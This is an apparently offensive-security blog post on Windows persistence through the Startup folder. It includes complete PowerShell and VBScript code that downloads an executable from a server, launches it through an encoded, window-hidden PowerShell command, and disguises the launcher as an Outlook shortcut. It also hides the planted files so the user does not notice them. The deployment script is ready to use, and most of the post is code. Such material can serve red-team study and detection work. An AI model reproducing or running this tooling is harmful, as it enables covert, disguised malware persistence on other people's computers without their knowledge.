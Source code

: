 ```yaml
---
layout: post
title: Persistence using Startup Folder
excerpt_separator: <!--more-->
---
```


One of the most simple persistence methods when you have access as a non-administrative user is using the Startup folder. However, it is not so easy to go completely unnoticed by the legitimate user.

<!--more-->


Gists: 

- [Script to create files](https://gist.github.com/ricardojoserf/d021310080ea34c8c6187d82065dde85)

- [Script to delete files](https://gist.github.com/ricardojoserf/6e1a242e77a52c78b630af22d5709153)

<br>

-------------------------------------------


## Intro

The easiest way to set this persistence method is dropping a file in the Startup Folder of the user, which is in the path:

```
C:\Users\USER\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```

This file can be an executable program (".exe" extension) but it can also be a Batch script (".bat" extension), Powershell script (".ps1" extension) or even a file shortcut (".lnk" extension). So if, for example, you copy the calc.exe binary from C:\Windows\System32\calc.exe to the mentioned Startup folder path, next time the user logs into the computer the calculator application will pop up.

From a non-attacker perspective, it is common to see big organizations using this and other similar techniques to make all the employee laptops to launch specific programs when the Operating System (usually Windows) starts. In this case, one approach is using shortcuts to open each of these programs: Teams, Outlook, Chrome...

For this specific case, we find a laptop where there are shortcuts to open some programs in the Startup folder, which open all the programs the employee needs for its daily work. However, even if the user uses Outlook everyday, there is not a shortcut for the program. Furthermore, our goal is to run a .exe file every time the user boots the computer without any cmd window popping up

<br>

## Executing a EXE without a window popping up

#### Failed approach: Powershell's window style hidden

First, I created a Batch file in the path:

```
C:\Users\USER\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\UpdateOutlook.bat
```

And this is the content of the file, a Powershell command which executes the program in the path "c:\temp\OutlookUpdate.exe" and hides the window immediately (that is why we use "-windowstyle hidden"):

```
powershell -windowstyle hidden -command c:\temp\OutlookUpdate.exe
```

What is the biggest problem with this approach? Even if you run this in an good, new, optimized computer, the window will pop up even if it is for half a second. If the computer is older, the time the window appears in the screen will be longer, and having the previous Powershell command for more than 15 seconds in the user's screen is probably not the most OPSEC option. 

Could we encode the Powershell command? Of course, but it is even better if we avoid the window appearing even for half a second.


#### Changing Powershell for VBScript

To avoid any windows appearing in the screen, we will use a VBScript file. For example, the following script will execute an encoded powershell command which will call "c:\ProgramData\Outlook\OutlookUpdate.exe". If we create this file in the Startup folder, the program will get executed and there will be no window popping the user could ever see:

```powershell
Set objShell = WScript.CreateObject(""WScript.Shell"")
objShell.Run(""powershell -e YwA6AFwAUAByAG8AZwByAGEAbQBEAGEAdABhAFwATwB1AHQAbABvAG8AawBcAE8AdQB0AGwAbwBvAGsAVQBwAGQAYQB0AGUALgBlAHgAZQA=""), 0, True
```


#### Shortcut files

But, knowing the folder contains mostly shortcuts, maybe it makes more sense if the VBScript file is generated in other folder and we just leave a shortcut to it in the Startup folder. 

Furthermore, we will change the shortcut icon to a more reliable-looking one, and for this example we will use an Outlook icon. We can generate the file shortcut using WScript:

```powershell
$WshShell = New-Object -comObject WScript.Shell
$Shortcut = $WshShell.CreateShortcut("$($env:USERPROFILE)\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\$LnkFile")
wget $Url/$IcoFile -Outfile $Dir\$IcoFile
$Shortcut.TargetPath = "$Dir\$VbsFile"
$Shortcut.IconLocation = "$Dir\$IcoFile"
$Shortcut.Save()
```

#### Hidden files

Finally, now we know we will need four files:

- The shortcut file in the Startup folder.
- The icon file used by the shortcut file.
- The VBScript file called by the shortcut.
- The EXE file we wanted to execute in the system at startup.

We will drop the icon and EXE file and generate the shortcut and the VBScript file, and the four files will be on disk. 

We can use the "hidden" attribute so the files are not visible in the folder (by default, even if you probably have File Explorer configured to see hidden items) or running "dir" (you should run "dir /a" to see these hidden files). For this we could use:

```powershell
attrib -h C:\ProgramData\Outlook\OutlookUpdate.exe
```

From my tests, it is important to notice that the shortcut file can not be "hidden", but the VBScript, EXE and even the icon file can be.

<br>

## Final scripts

This process is automated in the following [script](https://gist.github.com/ricardojoserf/d021310080ea34c8c6187d82065dde85):

```powershell
$Url = "http://127.0.0.1:8080"
$Dir="C:\ProgramData\Outlook"
$ExeFile = "notmalicious.exe"
$VbsFile = "CheckUpdate.vbs"
$LnkFile = "Outlook.lnk"
$IcoFile = "microsoft-outlook.ico"

## Create directory
echo "Creating directory $Dir"
mkdir $Dir

## Download and hide .exe
wget $Url/$ExeFile -Outfile $Dir\$ExeFile
attrib +h $Dir\$ExeFile
cmd /c "dir $Dir"
cmd /c "dir /a $Dir"

## Create .vbs
$B64Path = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($Dir+"/"+$ExeFile))
echo $B64Path
cmd /c "echo Set objShell = WScript.CreateObject(""WScript.Shell"") > ""$Dir\$VbsFile"""
cmd /c "echo objShell.Run(""powershell -e $B64Path""), 0, True >> ""$Dir\$VbsFile"""

## Download .ico and create .lnk
$WshShell = New-Object -comObject WScript.Shell
$Shortcut = $WshShell.CreateShortcut("$($env:USERPROFILE)\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\$LnkFile")
wget $Url/$IcoFile -Outfile $Dir\$IcoFile
$Shortcut.TargetPath = "$Dir\$VbsFile"
$Shortcut.IconLocation = "$Dir\$IcoFile"
$Shortcut.Save()

## Hide .vbs and .ico
attrib +h "$Dir\$VbsFile"
attrib +h $Dir\$IcoFile
cmd /c "dir ""$Dir"""
cmd /c "dir /a ""$Dir"""
type "$Dir\$VbsFile"
cmd /c "dir /a ""$($env:USERPROFILE)\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\"""
```


And this is the [script](https://gist.github.com/ricardojoserf/6e1a242e77a52c78b630af22d5709153) to delete the files generated for the persistence (basically you have to unset the "hidden" attribute before deleting a file, you could also delete the folder but I think it is risky to do that in a script):

```powershell
$Dir="C:\ProgramData\Outlook"
$ExeFile = "notmalicious.exe"
$VbsFile = "CheckUpdate.vbs"
$LnkFile = "Outlook.lnk"
$IcoFile = "microsoft-outlook.ico"

## Unhidden and delete files from Dir
cmd /c "dir /a $Dir"
attrib -h $Dir\$ExeFile
attrib -h $Dir\$VbsFile
attrib -h $Dir\$IcoFile
del $Dir\$ExeFile
del $Dir\$VbsFile
del $Dir\$IcoFile
cmd /c "dir /a $Dir"

## Delete .lnk
del "$($env:USERPROFILE)\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\$LnkFile"
cmd /c "dir /a ""$($env:USERPROFILE)\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\"""
```

Before deleting these files the program must be stopped if it is already running:

```
tasklist | findstr notmalicious.exe
taskkill /f /pid <PID>
```

<br>
